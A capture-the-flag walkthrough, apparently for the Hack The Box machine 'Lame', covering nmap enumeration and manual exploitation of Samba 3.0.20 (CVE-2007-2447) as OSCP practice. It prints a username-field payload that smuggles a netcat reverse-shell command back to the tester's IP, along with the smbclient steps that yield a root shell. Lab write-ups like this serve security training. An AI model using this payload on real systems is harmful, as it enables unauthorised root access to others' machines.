






# Enumeration

## Nmap

My initial nmap scan reveals that this box is running FTP over port 21, SSH over port 22, and SMB over ports 139 and 445.



I see that Anonymous login is allowed over FTP, so I’ll start with that.

## FTP

Logging into FTP shows that the box is running vsftpd 2.3.4, and there appears to be no files in the directory. 



A quick search shows that vsftpd 2.3.4 is vulnerable to [backdoor command execution](https://www.exploit-db.com/exploits/49757). Before moving forward, I would still like to explore the SMB running on this box before attempting to exploit anything.

## SMB

Looking back at the nmap scan I can see that this box is running Samba 3.0.20. Another quick search shows that this version is vulnerable to a [command execution vulnerability](https://www.exploit-db.com/exploits/16320) as well.

Now that I have identified both vulnerabilities, I decide to start with the Samba exploit, as what I have seen about the exploit so far interests me the most.

# Exploitation

## Samba 3.0.20

Although there is a metasploit module for this exploit, I would like to better understand the vulnerability by exploiting it manually. Not only this, but on the OSCP metasploit is only allowed to be used once, so I think it is good practice to figure out how to manually exploit boxes like this one.

A quick search brings up this [exploit](https://github.com/amriunix/CVE-2007-2447) on github. Looking at the python code, it seems like the exploit is performed by connecting to SMB using a username of `/=`nohup [payload]`` . Since I would like a reverse shell back to my system, ill make my payload execute `/bin/sh` through netcat, connecting back to my machine over port 1234.

```bash
"./=`nohup nc -e /bin/sh 10.10.14.2 1234`"
```

To find out what shares can be accessed, Ill run smbmap on the box.

```bash
smbmap -H lame.htb
```

The results show me that only the `/tmp` share can be accessed, without proper credentials, so thats what Ill connect to. I start up a netcat listener over port 1234 to catch my shell and connect to the share using `smbclient`. Once I’m connected, I issue the `logon` command followed by my payload. I’m asked for a password, so I try hitting enter to see what happens.



I get a connection back to my listener with a shell. A whoami check reveals that this is a root shell, no escalation needed!



## User Flag

Ill navigate to the home directory and find a user named makis. This user’s home directory contains the user flag.



## Root Flag

Lastly, I’ll grab the root flag from the root directory!


